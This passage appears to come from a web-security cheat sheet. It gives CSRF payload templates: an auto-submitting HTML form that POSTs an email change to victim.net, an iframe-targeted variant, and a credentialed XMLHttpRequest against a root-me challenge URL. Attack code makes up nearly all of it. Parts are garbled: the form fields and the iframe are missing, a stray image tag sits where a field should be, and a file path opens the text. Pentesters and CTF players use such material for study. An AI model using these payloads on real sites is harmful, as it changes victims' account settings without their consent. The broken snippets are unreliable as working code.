 ### Form POST request

```html
<html>
  <body>
    <script>
      history.pushState("", "", "/")
    </script>
    <form
      method="POST"
      action="https://victim.net/email/change-email"
      id="csrfform">
      
      <!-- Way 1 to autosubmit -->
      
      ![](x)
      <!-- Way 2 to autosubmit -->
    </form>
    <script>
      document.forms[0].submit() //Way 3 to autosubmit
    </script>
  </body>
</html>
```

### Form POST request through iframe

```html
<!-- 
The request is sent through the iframe withuot reloading the page 
-->
<html>
  <body>
    
    <form method="POST" action="/change-email" id="csrfform" target="csrfframe">
      
      
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```

### **Ajax POST request**

```html
<script>
  var xh
  if (window.XMLHttpRequest) {
    // code for IE7+, Firefox, Chrome, Opera, Safari
    xh = new XMLHttpRequest()
  } else {
    // code for IE6, IE5
    xh = new ActiveXObject("Microsoft.XMLHTTP")
  }
  xh.withCredentials = true
  xh.open(
    "POST",
    "http://challenge01.root-me.org/web-client/ch22/?action=profile"
  )
  xh.setRequestHeader("Content-type", "application/x-www-form-urlencoded") //to send proper header info (optional, but good to have as it may sometimes not work without this)
  xh.send("username=abcd&status=on")
```